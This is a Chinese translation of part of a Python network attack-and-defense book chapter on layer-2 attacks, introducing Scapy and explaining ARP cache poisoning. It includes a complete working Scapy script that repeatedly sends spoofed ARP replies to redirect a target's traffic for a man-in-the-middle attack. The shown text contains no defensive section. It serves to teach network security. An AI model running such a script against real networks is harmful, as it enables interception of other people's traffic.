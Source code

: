 # Python网络攻防之第二层攻击

本章节节选翻译自_《Understanding Network Hacks: Attack and Defense with Python》_中的第四章_Layer 2 Attacks_。该书通过网络层次划分介绍漏洞，并使用`Python`编写相关利用工具进行网络攻防，每小节均按照“`原理--代码--解释--防御`”的结构行文，此书也可与_《Python黑帽子:黑客与渗透测试编程之道》_相互参照学习，相信会达到较好的效果呦。另译者水平有限，如有错误还请指正与海涵。

0x00 摘要
=====

在本章第二层攻击当中，我们将进入网络`hacking`的奇幻之旅。让我们回顾一下，第二层是负责在以太网中，使用MAC地址来发送数据包。除了`ARP`攻击，我们将探讨交换机是如何应对`DOS`攻击的，以及如何逃逸出`VLAN`环境。

0x01 需求模块
=====

在`Python`中，你不必在意原始套接字或网络字节顺序，借由`Philippe Biondi`编写的`Scapy`，具有世界上最好的数据包生成器，你可以轻松地定制数据包。既不像在`Libnet`和`C`中那样需要指针运算，也不像在`RawIP`和`Perl`中，或者是在`Scruby`和`Ruby`中，你会被有限的几种协议所束缚。`Scapy`可以构造从`ARP`到`IP/ICMP`，再到`TCP/UDP`和`DNS/DHCP`等所有`OSI`层上的数据包，甚至是更不常见的协议也同样被支持，比如`BOOTP`,`GPRS`,`PPPoE`,`SNMP`,`Radius`,`Infrared`,`L2CAP/HCI`,`EAP`。

现在让我们在第二层网络上，使用`Scapy`来制造一些麻烦吧！首先你需要用如下的命令安装它：

```
pip install Scapy

```

现在你将步入经典著名的中间人攻击！

0x02 ARP-Cache-Poisoning
=====

如果一台主机想要发送`IP`数据包到另一台主机，就必须预先通过使用`ARP`协议请求目的`MAC`地址。这个询问会向网络中的所有成员广播。在一个完美的世界中，只有应答的主机是所需的目的主机。在一个不那么完美的世界中，攻击者会每隔几秒向它的受害者发送一个`ARP`应答报文，但是是以它自己的`MAC`地址作为响应，从而重定向该连接到其自身。因为大多数的操作系统都接受它们从未询问过的应答报文，所以该攻击才会生效！

```
#!/usr/bin/python
import sys
import time
from scapy.all import sendp, ARP, Ether    

if len(sys.argv) < 3:
    print sys.argv[0] + ": <target> <spoof_ip>"
    sys.exit(1)    

iface = "eth0"
target_ip = sys.argv[1]
fake_ip = sys.argv[2]    

ethernet = Ether()
arp = ARP(pdst=target_ip,
                psrc=fake_ip,
                op="is-at")
packet = ethernet / arp    

while True:
        sendp(packet, iface=iface)
        time.sleep(10)

```
